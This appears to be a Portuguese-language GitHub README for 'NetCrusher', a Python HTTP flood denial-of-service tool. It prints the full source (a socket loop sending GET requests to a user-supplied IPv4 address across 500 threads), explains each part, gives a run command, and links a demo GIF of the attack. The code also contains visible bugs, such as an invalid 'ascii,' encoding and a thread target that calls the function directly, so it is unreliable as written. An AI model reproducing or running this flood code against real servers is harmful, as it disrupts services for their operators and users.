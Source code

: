 # Net-crusher

### Introdução 

- NetCrusher é um código de ataque Dos simples, sendo utilizado como base para uma ferramenta que negará Serviço na Camada de Aplicação. Esse Código realiza um ataque de Flood HTTP,
um tipo de ataque de negação de serviço (DoS), enviando um grande número de solicitações HTTP GET para um servidor alvo.

- Vale ressaltar que isso é um protótipo. Ele será a base da base pro que será a ferramenta final.

### Código 
<div style="display: inline_block"><br>
   <img align="center" alt="foto-teste" src="https://media.discordapp.net/attachments/1216774284471570473/1240432389948444794/image.png?ex=66468a2f&is=664538af&hm=34c7eab336f50442ef581240a3d67d6bfc93185067781cd424e8d93164530978&=&format=webp&quality=lossless"
</div> 

  >Imagem do código na shell

### Explicação
  * Este código em Python parece ser uma implementação de um ataque de negação de serviço (DoS) do tipo HTTP flood. Vou explicar cada parte do código:
Importações:

```python
      import socket
      import threading
```



- Estas bibliotecas são importadas para permitir o uso de sockets (conexões de rede) e threading (execução de múltiplas threads simultaneamente).
Entrada do usuário:

```python
      target = str(input("entre com o iPv4: "))
      port = 80
```


- Aqui, o código solicita ao usuário que insira o endereço IPv4 do alvo. A porta é definida como 80, que é a porta padrão para tráfego HTTP.

  * Função
 
```python
      http_flood:
      def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target,port))
        s.sendto(("Host: 192.168.56.2" +"\r\n\r\n").encode('ascii'), (target,port))
        print("Mandando Solicitação")
```

- Esta função é responsável por criar uma conexão TCP com o servidor de destino na porta 80 e enviar repetidamente uma solicitação HTTP GET. A função está em um loop infinito (while True), o que significa que continuará enviando solicitações até que o programa seja interrompido.

```python
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) #Cria um socket TCP.
    s.connect((target, port)) #Conecta ao alvo na porta especificada.
    s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port)) #Envia uma solicitação HTTP GET.
    s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port)) #Envia o cabeçalho Host.
    print("Mandando Solicitação") #Imprime uma mensagem indicando que a solicitação foi enviada.
```


- Criação e inicialização das threads:

```python
  for i in range(500):
  thread = threading.Thread(target=http_flood())
  thread.start()
  Aqui, o código cria 500 threads, cada uma executando a função http_flood.

```





### instalação: 
  * git clone:
```python
import socket
import threading

target = str(input("entre com o iPv4: "))
port = 80

def http_flood():
    while True:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target, port))
        s.sendto(("GET / HTTP/1.1 \r\n").encode('ascii,'), (target, port))
        s.sendto(("Host: 192.168.56.2" + "\r\n\r\n").encode('ascii'), (target, port))
        print("Mandando Solicitação")


for i in range(500):
    thread = threading.Thread(target=http_flood())
    thread.start()
```

### COMO USAR:
  * python3 NetCrusher

### DEMONSTRAÇÃO: 

<div style="display: inline_block"><br>
  <img align="center" alt="gif" src="https://cdn.discordapp.com/attachments/1141095761069752330/1240441549414993961/Video_sem_titulo.gif?ex=664692b7&is=66454137&hm=10154f0bd484bc5a1fa1c2cff432144ae1f3253edabce67f9e651bff61460b63&"
</div> 

  >GIF do ataque
